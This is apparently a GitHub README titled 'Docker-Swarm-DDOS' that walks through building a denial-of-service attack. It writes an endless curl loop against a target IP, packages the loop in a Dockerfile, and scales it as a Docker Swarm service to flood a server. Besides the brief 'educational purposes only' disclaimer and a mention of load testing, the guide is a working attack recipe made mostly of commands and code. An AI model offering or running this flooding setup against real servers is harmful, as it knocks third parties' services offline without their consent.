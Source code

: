 # Docker-Swarm-DDOS
## How to create a Denial of Service Attack through Docker Swarm.
#### Quick Disclaimer: This information is for educational purposes only and should not be used with malicous intent. Also the following guide has been tested only for Mac and Ubuntu, minor differences might exist on other OS.

This repository will help you to create a DDOS attack on a server. This could be useful if working on a project and trying to test out what will happen if there is some traffic, heavy traffic or a full fleshed DDOS attack.

### List of Tasks

- [ ] Installing Docker
- [ ] Creating the Script
- [ ] Setting up Dockerfile
- [ ] Creating a Custom Docker Image
- [ ] Creating and Scaling a Service


### Installing Docker
If you have this part already complete feel free to move on to the next, otherwise here is a link that you could follow in order to get this part started.

Please instiall the proper verison for your OS and then return back to this guide. :+1:

https://www.docker.com/community-edition

- [x] Installing Docker

### Creating the Script
Now that we have Docker installed and running lets get started with creating a directory.
It doesnt matter where this directory is, but to keep in simple for now I'll go with this

```
$ mkdir $HOME/DockerAttack
$ cd $HOME/DockerAttack
```
>Following is done through iTerm or a Terminal
>I personally use vim for this, but any way would really do.
>$ vim curlAttack.sh
There's not much to the script, in fact its a simple looping curl, it looks something like this
```sh
while true
do
#Please use 'man curl' to see what -vk is for, also -X command can be useful too.
curl -vk https:://<ip>
#sleep 5
done
exit 0
```
> I'd actually reccomend to first write a curl command that works for your server in a terminal, then copy paste it into the script.

At this point you could test it out by adding execution permission and then running it.
```
$ chmod +x curlAttack.sh
$ ./curlAttack.sh
```

- [x] Creating the Script


### Setting up Dockerfile
Without switching to a different directory lets create our Dockerfile.

>$ vim Dockerfile
```
FROM tutum/curl
ADD curlAttack.sh /usr/local/bin/curlAttack.sh
CMD ["usr/local/bin/curlAttack.sh"]
```
- [ ] Setting up Dockerfile

### Creating a Custom Docker File

Now that dockerfile is set up properly, without switching into a different directory run the following command.
```
  $ docker build -t <imageName>:dockerfile .
```
Check if it was succesfull by running
 ```
 $ docker images
 ```
 
### Creating and Scaling a Service

Start all the following commands with **docker service**

| Command   | Description |
| ------------- | ------------- |
|  create --name \<serviceName> --detach=false \<imageName>:dockerfile | Creates a service from the custom dockerfile image.  |
| scale \<serviceName>=\<#>  | Used to easily scale number of copies of the service.  |

